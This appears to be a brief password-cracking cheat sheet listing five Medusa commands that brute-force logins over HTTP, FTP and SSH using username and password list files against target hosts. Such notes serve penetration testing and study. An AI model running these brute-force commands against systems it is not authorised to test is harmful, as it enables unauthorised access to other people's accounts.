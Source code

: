 #password-cracking
- medusa -h target-ip -u [username] -P ../creds/passwords.txt -M http 

- medusa -h 172.21.0.0 -U [path to username file] -P [path to password file] -M ftp

- medusa -H hosts.txt -U [path to username file] -P [path to password file] -M http 

- medusa -h 172.21.0.0 -U [path to username file] -P [path to password file] -M ssh -n 2222

- medusa -h 172.21.0.0 -U [path to username file] -P [path to password file] -M ftp -O log.txt




